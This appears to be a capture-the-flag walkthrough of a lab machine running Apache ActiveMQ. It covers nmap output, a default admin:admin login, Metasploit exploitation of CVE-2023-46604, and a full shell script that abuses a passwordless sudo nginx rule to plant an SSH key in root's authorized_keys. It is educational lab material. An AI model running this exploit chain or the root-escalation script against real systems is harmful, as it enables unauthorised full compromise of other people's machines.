




# Walkthrough


## Information Gathering: 

Navigating to the ip address results in receving a login prompt. Entering the wrong credentials twice will result in the webpage below:





The default credentials `admin:admin` were used on another attempt and revealed the webpage below: 



By clicking on `Manage ActiveMQ broker` more information is revealed on the target:

## Broker

|   |   |
|---|---|
|Name|**localhost**|
|Version|**5.15.15**|
|ID|**ID:broker-41839-1786736215915-0:1**|
|Uptime|**7 minutes**|
|Store percent used|**0**|
|Memory percent used|**0**|
|Temp percent used|**0**|

--- 

### Nmap Scans: 

All Port Scan: 
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
34977/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```


`-sC -sV` scan on the default ports: 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`-sC -sV` scan on ports 1883, 5672 and 8161:
```
PORT     STATE SERVICE VERSION
1883/tcp open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/MasterBroker:
|_    ActiveMQ/Advisory/Consumer/Topic/#:
5672/tcp open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5672-TCP:V=7.99%I=7%D=8/14%Time=6A7F72B6%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"AM
SF:QP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1
SF:\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x0
SF:2\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x2
SF:0unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\0A
SF:MQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`
SF:\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:d
SF:ecode-error\xa17Connection\x20from\x20client\x20using\x20unsupported\x2
SF:0AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\
SF:0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x0
SF:2\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Co
SF:nnection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted
SF:")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\
SF:x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\
SF:0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connecti
SF:on\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(D
SF:NSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0
SF:\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x1
SF:8\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20f
SF:rom\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSessi
SF:onReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0
SF:\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S
SF:\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client
SF:\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCookie,
SF:89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x
SF:04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\x
SF:c0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20us
SF:ing\x20unsupported\x20AMQP\x20attempted");
```

---

### Information Gathering Summary: 

- The target is using ActiveMQ but uses weak, default credentials and is easily accessed by an attacker. Access revealed the version of `5.15.15` which is vulnerable to **CVE-2023-46604**.

- The Nmap scan revealed Jetty on port **8161** to be version `9.4.39 (9.4.39.v20210325)`. This port is the default for the **Apache ActiveMQ** admin web console, management interface and REST API. It is managed via `jetty.xml`.

- Port **5672** is open and is the default port used for plain non-encrypted **AMQP (Advanced Message Queing Protcol)** client connections in message brokers like ActiveMQ. They use this port to send, receive and route messages. 

- Port **1883** is open and used for the default TCP port for unencrypted **MQTT (message queing telemetry transport)** protocol and is used in IoT and machine-to-machine systems for lightweight publish-and-subscribe messaging between clients and brokers.


---

## Vulnerability Assessment: 

Port 61616 is open and the version is vulnerable to **CVE-2023-46604**.

The metasploit module below was used successfully against the target:
`msf exploit(multi/misc/apache_activemq_rce_cve_2023_46604`




The first flag can be found in `/home/activemq/user.txt`.

---

## Privilege Escalation: 

#### sudo -l

```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

https://github.com/DylanGrl/nginx_sudo_privesc

The malicious script below exploits a misconfigured `sudo` permission for Nginx to achieve privilege escalation. It creates a custom Nginx configuration that runs as **root**, exposes the entire filesystem, and enables HTTP `PUT` requests. It then starts Nginx with this configuration, generates an SSH key pair, and uses the root Nginx process to write the generated public key into `/root/.ssh/authorized_keys`. The corresponding private key is displayed so it can be used to authenticate via SSH as **root**, resulting in full privileged access to the system.

The exploit code to be transferred to the machine:

```
#!/bin/sh
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

The file is made executable on the target, and when run, will generate a private ssh key that can be copied to the attacking machine. This key is then used to login as the `root` user against the target: 




---
# Summary: 

The assessment identified multiple security weaknesses that ultimately allowed full compromise of the target system. Initial enumeration revealed an Apache ActiveMQ instance exposed through several messaging and management services, including ports 1883, 5672, 61616 and 8161. The ActiveMQ web interface was accessible using the default credentials `admin:admin`, exposing the broker version as 5.15.15. This version was identified as vulnerable to CVE-2023-46604, which was successfully exploited using the Metasploit Framework to obtain remote code execution as the `activemq` user and retrieve the initial user flag. Post-exploitation enumeration identified an excessive `sudo` permission allowing the `activemq` user to execute `/usr/sbin/nginx` as root without authentication. This misconfiguration was exploited by supplying a malicious Nginx configuration that ran the web server as root, exposed the filesystem, and permitted HTTP `PUT` requests. A generated SSH public key was subsequently written to `/root/.ssh/authorized_keys`, allowing SSH authentication as the root user and resulting in complete administrative control of the system. The primary issues identified were the use of default credentials, an outdated and vulnerable ActiveMQ installation, and an overly permissive `sudo` configuration for Nginx, which together enabled unauthorised access, remote code execution, and full system compromise.